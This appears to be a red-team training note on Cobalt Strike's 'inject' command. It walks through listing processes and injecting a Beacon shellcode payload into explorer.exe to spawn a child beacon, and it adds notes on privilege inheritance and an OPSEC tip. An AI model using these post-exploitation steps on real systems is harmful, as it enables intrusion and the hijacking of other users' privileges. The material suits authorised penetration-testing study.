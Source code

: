 The `inject` command will inject a Beacon payload in the form of shellcode into a target process. You can inject into processes owned by the current user without needing elevation, but local admin privileges are required to inject into processes owned by other users. If you inject into a process owned by a different user, your Beacon will run with all the local and domain privileges of that user.
```shell
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

Where:
-   `3320` is the PID of the target process.
-   `x64` is the architecture of that process.
-   `tcp-4444-local` is the name of the listener.

**OPSEC Alert**
>Don't perform cross-platform injection unless you really have to (e.g. x86 -> x64 or x64 -> x86).

![[Pasted image 20220831124301.png]]

